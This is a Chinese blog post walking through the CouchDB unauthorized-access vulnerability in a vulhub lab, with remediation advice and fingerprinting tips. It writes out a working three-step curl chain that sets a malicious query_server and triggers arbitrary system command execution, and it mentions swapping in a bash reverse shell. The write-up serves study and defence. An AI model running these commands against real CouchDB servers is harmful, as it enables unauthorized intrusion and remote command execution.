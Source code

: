 ```yaml
---
layout:     post
title:      CouchDB未授权访问漏洞
subtitle:   CouchDB未授权访问漏洞
date:       2019-10-10
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - Web常见漏洞
---
```

# 漏洞介绍
* 漏洞名称：CouchDB未授权访问漏洞
* CVE编号：SSV-91597
* 发布时间：2016-05-19
* 漏洞说明：CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，通过一个未授权访问的CouchDB，通过修改其query_server配置，来执行系统命令。
* 影响范围：全版本
* 修复建议：`1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。 2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。`
# 0x00 环境配置
靶场环境使用vulhub来搭建，从下图可以看到CouchDB在5984端口上运行了：

![图片](../../../../img/couchdb_unauth_1.png)

# 0x01 漏洞复现
如下图所示，直接访问，可以看到欢迎信息和版本号：

![图片](../../../../img/couchdb_unauth_2.png)

访问`http://ip:5984/_config`，可以通过该页面中的关键字来判断该漏洞是否存在：

![图片](../../../../img/couchdb_unauth_3.png)

关键字如下：

```
httpd_design_handlers
external_manager
replicator_manager
```
访问`http://ip:5984/_utils/`是CouchDB Web界面：

![图片](../../../../img/couchdb_unauth_4.png)

## 执行系统命令
作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：

1. 新增query_server配置，写入要执行的命令；
   `curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'`
2. 新建一个临时库和临时表，插入一条记录；
   `curl -X PUT 'http://username:password@your-ip:5984/vultest'`
   `curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`
3. 调用query_server处理数据
   `curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'`

我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：

![图片](../../../../img/couchdb_unauth_5.png)

![图片](../../../../img/couchdb_unauth_6.png)

# 0x02 指纹
CouchDB 未授权访问漏洞的发现需要提前做一次端口扫描，下图就是Nmap对CouchDB应用的识别：

![图片](../../../../img/couchdb_unauth_7.png)

# 0x03 总结
一开始打算使用Vulhub给的exp.py的脚本，搞了半天没反弹成功，因此还是使用curl命令来执行任意命令，curl还是很给力的，给自己布置下作业，学一学curl的命令。

